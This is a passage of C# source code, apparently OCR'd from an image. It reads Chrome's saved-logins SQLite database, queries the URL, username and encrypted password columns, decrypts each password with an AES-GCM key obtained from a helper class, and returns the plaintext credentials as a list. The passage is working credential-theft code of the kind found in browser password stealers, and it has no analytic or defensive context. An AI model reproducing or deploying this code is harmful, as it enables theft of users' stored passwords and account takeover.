 ```
            if (File.Exists(p))
            {
                using (var conn = new SQLiteConnection($"Data Source={p};"))
                {
                    conn.Open();
                    using (var cmd = conn.CreateCommand())
                    {
                        cmd.CommandText = "SELECT action_url, username_value, password_value FROM logins";
                        using (var reader = cmd.ExecuteReader())
                        {
                            
                            if (reader.HasRows)
                            {
                                var key = GCDecryptor.GetKey();
                                while (reader.Read())
                                {
                                    byte[] nonce, ciphertextTag;
                                    var encryptedData = GetBytes(reader, 2);
                                    GCDecryptor.Prepare(encryptedData, out nonce, out ciphertextTag);
                                    var pass = GCDecryptor.Decrypt(ciphertextTag, key, nonce);

                                    result.Add(new CredentialModel()
                                               {
                                                   Url = reader.GetString(0),
                                                   Username = reader.GetString(1),
                                                   Password = pass
                                               });
                                }
                            }
                        }                            
                    }
                    conn.Close();
                }

            }
            else
            {
                throw new FileNotFoundException("Canno find chrome logins file");
            }
            return result;
        }

        private byte[] GetBytes(SQLiteDataReader reader, int columnIndex)
        {
            const int CHUNK_SIZE = 2 * 1024;
            byte[] buffer = new byte[CHUNK_SIZE];
            long bytesRead;
            long fieldOffset = 0;
            using (MemoryStream stream = new MemoryStream())
            {
                while ((bytesRead = reader.GetBytes(columnIndex, fieldOffset, buffer, 0, buffer.Length)) > 0)
                {
                    stream.Write(buffer, 0, (int)bytesRead);
                    fieldOffset += bytesRead;
                }
                return stream.ToArray();
            }
        }        
    }

```